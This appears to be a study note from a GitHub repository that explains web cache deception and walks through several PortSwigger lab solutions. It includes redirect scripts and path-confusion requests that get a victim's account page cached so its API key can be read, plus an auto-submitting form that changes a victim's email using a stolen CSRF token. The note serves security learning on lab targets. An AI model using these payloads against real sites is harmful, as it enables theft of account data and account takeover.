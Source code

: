 # Web Cache Deception
Web cache deception is a vulnerability that enables an attacker to trick a web cache into storing sensitive, dynamic content. It's caused by discrepancies between how the cache server and origin server handle requests.

## Web caches
A web cache is a system that sits between the origin server and the user. When a client requests a static resource, the request is first directed to the cache. If the cache doesn't contain a copy of the resource (known as a cache miss), the request is forwarded to the origin server, which processes and responds to the request. The response is then sent to the cache before being sent to the user. The cache uses a preconfigured set of rules to determine whether to store the response.

When a request for the same static resource is made in the future, the cache serves the stored copy of the response directly to the user (known as a cache hit).

**Cache keys:** cache makes decision whether to store base on these aspects:
- URL path and query params
- Other elements such as headers and content type

**Cache rules:**
- Static file extension: match the extension of static files like `.css` or `.js`.
- Static directory: match all URL paths that start with a specific prefix like `/static` or `/assets`.
- File name: match specific file names to target files that are universally required for web operations and change rarely like `robots.txt` or `favicon.ico`.

### LAB: Exploiting path mapping for web cache deception
The API key is shown in the `/my-account`. Try adding a static extension and make another request to `/my-account/pucavv.js`.
Notice that the response contains the `X-Cache: miss` and `Cache-Control: max-age=30` headers. The `X-Cache: miss` header indicates that this response wasn't served from the cache. The `Cache-Control: max-age=30` header suggests that if the response has been cached, it should be stored for 30 seconds.
Resend the request to `/my-account/pucavv.js` and notice `X-Cache: hit`. This means `/my-account/pucavv.js` is cached and has a cache rule based on `.js`.
Use this script to make the victim visit his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a78003f03a9e1c280f7096300340038.web-security-academy.net/my-account/pucavv.js"
    </script>

After the victim viewed the page, we visit the same URL to obtain his API key store in the cache.

### LAB: Exploiting path delimiters for web cache deception
Use the [delimiter_list.txt](./delimeter_list.txt) as a payload to find the discrepancy between the origin server and the cache by sending the `GET /my-account$$pucavv.js` to the Intruder and bruteforce for the response containing `/my-account` page.
Found that `/my-account;pucavv.js` returns the page's content. Use this script to make the victim vist his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a2c00c404d1923583d714ab009f0099.web-security-academy.net/my-account;pucavv.js"
    </script>

After the victim viewed the page, we visit the same URL to obtain his API key store in the cache.

### LAB: Exploiting origin server normalization for web cache deception
Make a `GET /resources/..%2fmy-account` request and notice the `X-Cache: miss` header. Resend this request, now receive a `X-Cache: hit` header. This indicates that there is static directory cache rule and the server is normalizing the path to `/my-account`.
Use this script to make the victim vist his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a5b00b803dbaa4d80c003b300fc0058.web-security-academy.net/resources/..%2fmy-account"
    </script>

> Note: When exploiting normalization by the cache server, encode all characters in the path traversal sequence. Using encoded characters helps avoid unexpected behavior when using delimiters, and there's no need to have an unencoded slash following the static directory prefix since the cache will handle the decoding. 

### LAB: Exploiting cache server normalization for web cache deception
Use the [delimiter_list.txt](./delimeter_list.txt) as a payload to find the discrepancy between the origin server and the cache by sending the `GET /my-account$$pucavv` to the Intruder and bruteforce for the response containing `/my-account` page.
Found that both `?` (`%3f`) and `#` (`%23`) are delimiters that return the page's content. Now make a request exploiting the normalization of the cache server and found that for `GET %2fmy-account%23%2f%2e%2e%2fresources HTTP/2` (`/my-account#/../resources`) the server respond with `X-Cache` header. This means:
- The cache server interprets it as `/resources`
- The origin server interprets it as `/my-account`

Use this script to make the victim visit his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a5b00b803dbaa4d80c003b300fc0058.web-security-academy.net%2fmy-account%23%2f%2e%2e%2fresources"
    </script>

### LAB: Exploiting exact-match cache rules for web cache deception
First find the delimiter that cause the discrepancy just like the other labs which are `;` and `?`. 
Test the cache server and found out that it doesn't have static extension or static directory rule. Let's test for file name rule. Send this request:

    GET /robots.txt HTTP/2

Notice the `X-Cache` header, which indicates that the cache server has a file name rule.
Try path normalization by sending this request:

    GET /my-account;%2f%2e%2e%2frobots.txt HTTP/2 or
    GET /my-account?%2f%2e%2e%2frobots.txt HTTP/2 

Notice only the `;` delimiter cause the cache server to store the request. This means: 
- The cache server interprets it as `/robots.txt`
- The origin server interprets it as `/my-account`

Use this script to make the victim visit his `/my-account` page and store it's content in the cache:

    <script>
        location = "https://0a5b00b803dbaa4d80c003b300fc0058.web-security-academy.net/my-account;%2f%2e%2e%2frobots.txt"
    </script>

Now visit the same location and obtain the victim's CSRF token. Use that to construct this form which when delivered to the victim will cause the victim to change his email:

    <html>
        <body>
            <form action="https://0aea0036031f814680c57bc800a3009c.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="haha&#64;gmail&#46;com" />
            <input type="hidden" name="csrf" value="v5tv5ZzB8ipY1PY9hFeaEB5tHoq7zS9L" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
